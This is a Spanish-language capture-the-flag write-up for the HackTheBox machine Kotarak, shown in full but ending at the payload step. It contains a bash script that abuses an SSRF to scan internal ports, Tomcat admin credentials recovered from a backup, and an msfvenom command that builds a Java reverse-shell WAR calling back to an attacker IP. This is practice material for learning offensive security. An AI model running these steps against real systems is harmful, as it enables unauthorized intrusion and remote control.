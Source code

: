# Kotarak-HTB

## Nmap

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/6e56c404-d431-4ed5-84b1-40bc05965f91)

## Tomcat

Se encontro un servidor tomcat el panel de administracion usualmente esta en:

> manager/html

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/eee4bc02-9e30-4689-9976-99e543ab922a)

## SSRF

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/cf9f356c-a756-452a-a4de-cbf2dbb99653)

Entonces esto nos permite enumerar puertos con un script

```
#!/bin/bash

for i in $(seq 0  65535); do

#sleep 1
#echo $i

data=$(curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"&)
#echo "El puerto que estamos revisando es: $i"
#curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"

if [ ! -z "$data" ]; then

     echo "El puerto que respondio es el $i-----------"
     echo $data

fi

data=''
wait;
done

echo "Finalizado..."
```

Se encontraron varios puertos abiertos lo mas destacado

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/03665140-1b85-4a53-a508-ba59dfe71d8e)

Vemos que tienenel backup 

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/c5f4b0cb-639d-4f2b-aa59-8e082da841af)

> "admin" password="3@g01PdhB!"

## RCE

### msfvenom

Vamos a crear una payload:

```
msfvenom -l payload | grep java

###
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f war -o rev.war

```























































